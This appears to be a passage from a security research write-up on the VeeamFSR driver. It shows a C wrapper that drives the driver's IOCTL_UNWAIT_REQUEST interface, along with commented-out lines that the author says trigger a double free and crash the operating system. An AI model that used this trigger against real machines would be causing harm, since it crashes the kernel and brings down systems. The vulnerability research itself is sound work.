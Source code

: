 The controller app communicates its decision to the driver by passing one or more flags from the RequestFlags enum to the CtlUnwaitRequest function, which serves as a wrapper for the IOCTL_UNWAIT_REQUEST IoCtl.

{% highlight C %}
enum RequestFlags : BYTE
{
    RF_CallPreHandler = 0x1,
    RF_CallPostHandler = 0x2,
    RF_PassDown = 0x10,
    RF_Wait = 0x20,
    RF_DenyAccess = 0x40,
    RF_CompleteRequest = 0x80,
};

BOOL CtlUnwaitRequest(
    HANDLE hDevice,
    CtrlBlock* Ctrl,
    WORD SharedBufferEntryIndex,
    RequestFlags RFlags
)
{
    struct UnwaitDescriptor
    {
        CtrlBlock Ctrl;

        DWORD SharedBufferEntryIndex;
        RequestFlags RFlags;
        BYTE  IsStatusPresent;
        BYTE  IsUserBufferPresent;
        BYTE  SetSomeFlag;
        DWORD Status;
        DWORD Information;
        PVOID UserBuffer;
        DWORD d6;
        DWORD UserBufferLength;
    };

    DWORD BytesReturned;
    UnwaitDescriptor Unwait = { 0, };

    Unwait.Ctrl.FolderIndex = Ctrl->FolderIndex;
    Unwait.Ctrl.MajorFunction = Ctrl->MajorFunction;
    Unwait.Ctrl.FileIndex = Ctrl->FileIndex;
    Unwait.SharedBufferEntryIndex = SharedBufferEntryIndex;
    Unwait.RFlags = RFlags;

    Unwait.IsUserBufferPresent = 0;

    // Uncomment the code below to crash the OS.
    // VeeamFSR doesn't handle this parameter correctly. Setting IsUserBuffPresent to true 
    // leads to double free in the completion rountine.
    //Unwait.UserBuffer = (PVOID)"aaaabbbb";
    //Unwait.UserBufferLength = 8;
    //Unwait.IsUserBufferPresent = 1;


    BOOL r = DeviceIoControl(hDevice, IOCTL_UNWAIT_REQUEST, &Unwait, sizeof(Unwait), 0, 0, &BytesReturned, 0);
    if (r == FALSE)
    {
        printf("UnwaitRequest failed\n");
    }
    return r;
}
{% endhighlight %}
